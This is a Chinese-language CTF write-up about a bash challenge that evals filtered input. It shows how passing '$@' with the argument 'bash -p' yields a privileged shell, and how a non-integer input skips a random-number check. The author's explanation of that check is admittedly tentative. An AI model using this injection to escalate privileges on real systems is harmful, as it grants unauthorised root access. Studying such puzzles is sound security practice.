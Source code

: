 好久没打过靶机了，也没更新过，今天在群里看到了群主发了一个题目就玩了一下，顺便水一期wp

题目：

![image-20250322153403638](https://raw.githubusercontent.com/7r1UMPH/7r1UMPH.github.io/main/static/image/20250322153403675.png)

```
PATH=/usr/bin
read INPUT < <(head -n1 | tr -d "[A-Za-z0-9/]")
eval "$INPUT"
```

浅瞄了一眼，发现tr删除了所有字母、数字和斜杠，但保留特殊符号，那就有搞头

ps:$@ 在 Shell 中表示脚本的所有参数，可被 eval 解析。



我们可以构造输入$@，绕过字符过滤。然后再传递参数bash -p启动特权Shell。

解法：

```
echo '$@' | ./a.sh 'bash -p'
```

但是我的不是预期解

![image-20250322153428456](https://raw.githubusercontent.com/7r1UMPH/7r1UMPH.github.io/main/static/image/20250322153428487.png)

![image-20250322153442791](https://raw.githubusercontent.com/7r1UMPH/7r1UMPH.github.io/main/static/image/20250322153442822.png)

这两个是预期的

然后.....

![image-20250322153453994](https://raw.githubusercontent.com/7r1UMPH/7r1UMPH.github.io/main/static/image/20250322153454035.png)

加强版：

```
#!/bin/bash

PATH=/usr/bin

a=$((RANDOM%100))

echo $a

read -r INPUTS


if [[ "$INPUTS" -ne "$a" ]]; then
    exit 1
fi

read INPUT < <(head -n1 | tr -d "[A-Za-z0-9/]")
eval "$INPUT"
```

加了一个随机数，我本身是说爆破的......

![image-20250322153509806](https://raw.githubusercontent.com/7r1UMPH/7r1UMPH.github.io/main/static/image/20250322153509848.png)

然后后面有空瞄了几眼，因为我知道它在进行整数的比较，那我就在想如果输入一个非整数会怎么样，然后......

![image-20250322153523210](https://raw.githubusercontent.com/7r1UMPH/7r1UMPH.github.io/main/static/image/20250322153523241.png)

有戏

![image-20250322153725388](https://raw.githubusercontent.com/7r1UMPH/7r1UMPH.github.io/main/static/image/20250322153725419.png)

然后我后面我想找一下这方面的资料，但是我没找到，我打算明天再去问问群主，因为他bash比较好（不过我感觉他会自己来看我的wp）

目前我的理解是当使用-ne比较非数字字符串时，Bash会尝试将两边转换为整数。如果转换失败，就会报错什么的，[[ ]]表达式的结果会被视为false，因为比较操作本身无效，导致整个条件判断为假，因此不执行exit 1。



不管了，睡觉，等群主给我解惑了

<!-- ##{"timestamp":1740728321}## -->